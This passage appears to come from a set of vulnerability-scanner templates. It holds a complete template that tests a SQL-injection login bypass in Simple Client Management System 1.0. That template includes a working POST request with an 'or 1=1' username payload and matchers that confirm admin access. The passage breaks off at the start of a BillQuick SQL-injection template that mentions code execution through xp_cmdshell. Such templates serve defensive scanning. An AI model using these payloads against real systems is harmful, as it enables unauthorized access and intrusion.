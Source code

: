 ### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. c5fe25896e49ddfe996db7508cf00534
- part - body

---
# Simple Client Management System 1.0 - SQL Injection
## Description
- SQL Injection vulnerability exists in Sourcecodester Simple Client Management System 1.0 via the username field in login.php.

- severity - critical
- tags - cve,cve2021,simpleclientmanagement,sqli,auth-bypass
## Requests
### Step - 1
```
POST /classes/Login.php?f=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin'+or+'1'%3d'1'--+-&password=as

```
### Step - 2
```
GET / HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

```
### Matchers

**Type - dsl**
- dsl
    1. contains(all_headers_1, "text/html")
    2. status_code_1 == 200
    3. contains(body_1, "{\"status\":\"success\"}")
    4. contains(body_2, "Welcome to Simple Client")
- condition - and

---
# BillQuick Web Suite SQL Injection
## Description
- BQE BillQuick Web Suite 2018 through 2021 before 22.0.9.1 allows SQL injection for unauthenticated remote code execution. Successful exploitation can include the ability to execute arbitrary code as MSSQLSERVER$ via xp_cmdshell.
- severity - critical
- tags - cve,cve2021,sqli,billquick,kev
## Requests
### Step - 1